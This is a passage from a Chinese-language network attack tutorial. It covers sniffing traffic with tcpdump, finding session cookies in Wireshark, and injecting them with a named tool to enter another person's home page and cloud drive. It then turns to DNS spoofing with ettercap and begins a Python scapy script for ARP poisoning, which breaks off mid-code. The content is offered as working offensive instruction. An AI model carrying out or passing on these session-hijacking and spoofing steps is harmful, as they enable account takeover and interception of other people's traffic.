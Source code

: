 　　同时使用tcpdump抓包（当然也可以使用wireshark实时抓包并显示，但对本机压力比较大，建议使用tcpdump抓包，完成后再用wireshark显示）：

```
tcpdump -i eth0
```

　　![img](../../../../../ImageAssets/262353279026525-1573358989603.png)

　　经过一段时间的抓包之后就可以停止了。打开wireshark分析捕获到的数据包分析，使用过滤语法，找出含有cookies的数据包：

　　![img](../../../../../ImageAssets/270003052314382-1573358989603.png)　　

　　复制出cookies的值，并在浏览器中利用，这里推荐一款好用的cooikes利用工具cookie-injecting-tools（地址：https://github.com/lfzark/cookie-injecting-tools）。利用成功后，刷新页面，就可以进入到被人的主页和网盘了：

![img](../../../../../ImageAssets/270017361996663-1573358989635.png)  ![img](../../../../../ImageAssets/270018350278790-1573358989635.png)

　　**DNS欺骗：**

　　使用ettercap进行的DNS欺骗是使用了它的一个插件，同时结合ARP欺骗，就可以达到很好的欺骗效果。这里不再重复介绍了。重点是下面使用python实现的ARP欺骗和DNS欺骗：

```
#!/usr/bin/python# arp-poisoning
 
import sys
from scapy.all import sniff, sendp, ARP, Ether
 
if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)
def arp_poison_callback(packet):
    # Got ARP request?
    if packet[ARP].op == 1:
        answer = Ether(dst=packet[ARP].hwsrc) / ARP()
        answer[ARP].op = "is-at"
        answer[ARP].hwdst = packet[ARP].hwsrc
        answer[ARP].psrc = packet[ARP].pdst
        answer[ARP].pdst = packet[ARP].psrc
 
```